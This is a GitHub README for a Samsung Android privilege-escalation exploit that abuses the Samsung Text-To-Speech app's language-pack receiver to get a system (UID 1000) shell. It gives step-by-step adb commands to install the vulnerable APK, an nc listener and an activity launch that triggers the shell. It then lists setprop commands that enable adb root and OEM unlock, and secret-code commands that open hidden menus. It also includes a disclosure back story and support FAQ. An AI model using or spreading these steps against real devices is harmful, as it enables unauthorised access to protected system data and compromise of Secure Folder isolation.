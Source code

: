 # K0mraid3s-System-Shell
Simple guide -- 

1 Install all the apks, open atleast once.
2 Reboot, when device reboots, run the following command from ADB.
```adb shell pm install -r -d -f -g --full --install-reason 3 --enable-rollback /data/local/tmp/samsungTTSVULN2.apk 
```
3 in one console, type ```nc -lp 9999```
4 Run the following command in a second console: ```adb shell am start -n com.samsung.SMT/.gui.DownloadList```

DONE. 

if you have issues with it not starting, uninstall SMT (Samsung Text-To-Speech) completely, then reinstall the vuln version and try again from step 3 onward. 




PATCHED AS OF 02/2023
As seen on XDA before the public disclousure was removed by XDA Moderators.
It will otherwise remain unchanged here as an archive.

This is expected to work for EVERY single Samsung Mobile Device made TO-DATE (01/19/2023)

THIS IS ACTIVELY IN DEVELOPMENT - Our goal is to make it more user friendly. and easier to use, so please note things will change and updates will come at any given time, and there is almost certainly bugs to be found and encountered along the way during this, so if you find issues, just let us know here or in support chat, we are VERY active, and can usually get back to you in a few mins. I Will be dynamically updating this repo as things progress, keeping it up-to-date with our current progress.


This is an EXPLOIT to get a System based shell (UID 1000) on ANY Samsung Mobile Device. No clue if or when it will be patched, but has worked on every single Samsung Device tested so far.
THIS IS THE EQUILIVELENT OF DOING su system but this DOES NOT invoke or need "su" in any way.
This DOES NOT trip Knox.
This DOES NOT give you ROOT (UID 0)
This DOES NOT directly unlock your bootloader, although you may be able to find a way to do so using this exploit as a tool.
If you use this for your own works, Please give credit.
Next best thing to root on devices without BootLoader Unlock Option.


Cool things that work:
Access to most of /efs /efs/imei /efs/sec_efs /efs/FactoryApp - Access to most of /data /data/system /data/user/0/ANY_SYSTEM_APP - The "Insthk" bin becomes useable, - Secure Folder/Separated Apps becomes COMPLETELY compromised if you also install the POC in it (UID 150_system) - start IOTHidden Menu, DM Mode, Service Mode, Multiple Debugging and hidden menus as well as preconfig in system context- Change many protected props, such as: 
setprop persist.service.adb.root 1
setprop service.adb.root 1
setprop sys.hidden.otatest 1
setprop sys.hiddenmenu.enable 1
setprop persist.sys.knox.device_owner true
setprop persist.sys.usb.qxdm.debug 1
setprop sys.usb.qxdm.debug 1
setprop presist.service.adb.enable 1
setprop persist.sys.usb.qxdm.debug 1
setprop service.adb.enable 1
setprop persist.rollback.is_test true
setprop sys.oem_unlock_allowed 1
aswell as quite a bit more.


Note* You need to be on Wifi or Hotspot to set this up.



Its fairly simple, a Typical Local Privilege escalation.


The Easy Way -
Step 1 - Download "Komraids System Shell.zip", (attached is the latest version) and extract anywhere on desktop.
Step 2 - Push the "samsungTTSVULN2.apk" to /data/local/tmp
Step 3 - Ensure USB Debugging is ON, and computer is authorized. Also make sure power saving is OFF.
Step 4 - Install komraids_POC_V1.5.apk, reboot device.
Step 5 - When device is fully rebooted and unlocked, run systemshell.exe
Step 6 - You should now be in a shell with UID 1000. Enjoy. Be careful with what you mess with.

Things to note: The.exe only needs to be run once after each reboot, you can use it if you prefer, or, you can manually open a system shell yourself, by following Step 5, from "How it works?" below.


How it works? (sh** for security researchers, devs etc)


Step 1 - Install the included "komraids_POC_V1.5.apk" to the device, then push the included "samsungTTSVULN2.apk" to /data/local/tmp (adb push samsungTTSVULN2.apk /data/local/tmp) -> I advice disabling all battery optimizations for Samsung TTS and Shell, otherwise, it cuts off the shell from time to time.

Step 2 - Make sure ADB is on, Connected and authorized and all power saving is off (as mentioned above) Reboot device.

Step 4 - When device reboots, run this command from ADB. adb shell pm install -r -d -f -g --full --install-reason 3 --enable-rollback /data/local/tmp/samsungTTSVULN2.apk ---> it will return "Success" when done.

Step 5 - Now, open two shells, in the first, do nc -lp 9997 & in the second, do am start -n com.samsung.SMT/.gui.DownloadList -> Look back at the first shell., it should have opened into a new system (UID 1000) shell.

SMT has a receiver that blindly accepts stuff, so a carefully crafted apk (Our "komraids_POC_v1.5.apk") can trick it into loading our neat lib which opens a shell for us on localhost port 9997!

NOTE: You can use something like AppManager, seen here, or another App installer/manager to launch the SMT activity in step 5, and make a shortcut to it on your home screen for easy of access.




You are now UID 1000. Enjoy.



FAQ
Why wont it connect/open the system shell?
Various reasons can cause this, one of the most common is "Battery Optimizations", a form of power saving that can kill our apps. Power Saving is the number one issue for problems with this exploit. Second most common is forgetting to sort out Wifi to STATIC and, believe it or not, turning on ADB. So make sure you either have a full battery and all power saving features are OFF, or are plugged in via USB.
Why does this exist?
Idk, it was supposed to have been patched back in 2019, obviously it wasn't sufficient.

How do I prevent someone from hacking me with this?
Simple, be Offensive, set it up and lock up the lib/port, once your using this exploit, no others can because they cant load a second lib of the same. (the vuln is the lang packs for samsung Text-to-speech, SMT's receiver blindly accepts sh**) -- or, Disable or Remove Samsung Text-To-Speech.

How do I use this in Termux or other Terminal Emulators?
You will need to use the manual way, as described in Step 5 of "How it works?"

I cant get it to work, can anyone help?
Yes, post here or go to our Telegram Group for support, here (click me)

Can this work with LSPosed/LSpatch?
Yes, but it has its limitations currently. I've tested a few modules myself, some work, some don't.

Will this work with Magisk or Shizuku?
Yes, But it depends on @topjohnwu and @Rikka, respectfully, to give the green light to me to incorporate this and post those here or post their compatible versions here on their own. I am open to working with them and have already seen and used a working Shizuku mod using this Exploit, but out of respect, I cannot share it yet.

Will you share the source code?
Yes, I have plans to setup a (public) GitHub repo for this in the near future.


How do i open Hidden stuff?
For now, we will need to do it manually, so try these from System shell
This opens IOTHiden menu
am start -n com.sec.hiddenmenu/.IOTHiddenMenu -e 7267864872 72678647376477466
This opens CID Managers "Preconfig"
am start -n com.samsung.android.cidmanager/.modules.preconfig.PreconfigActivity -a com.samsung.android.action.SECRET_CODE -d secret_code://27262826 --ei type 2 
This opens the DM Mode on/off Toggle
am start -n com.sec.hiddenmenu/.DmMode -e 7267864872 72678647376477466
Ill add more interesting and useful commands/things to do as time goes on. Please do drop any cool things you find here!


BACK STORY:
Its full or drama and BS. I reported this to Samsung in October 2022, but they have decided this is GOOGLES problem and forgot to tell me their decision. LONG STORY CUT SHORT, Between the time Samsung decided this was GOOGLES problem and them telling me of that decision, somehow, "another external security researcher" reported this exact thing to google in the context it was their find. IDK who, nor do I really care at this point. Its done and over with, but stuff like this is what makes some security researches ever hesitant to share their finds, even with the shady vendors/OEMS.

Don't be dumb, I'm not responsible for any dumb sh*t you do.
PWNED - K0mraid3 2022-10-06 175216.png


Big shout out to @wr3cckl3ss1 and alll the others for the help testing, debugging and the massive amount more done to help get this right. It was truely a team effort and nothing less then a labor of love & passion for cybersecurity and learning. I learned more during this project with you guys then I can express.

Huge thanks to @oakieville for the .exe and alot of help tweaking the code of this project.


This project was brought to you by VAULT-TEC Dev Ops!
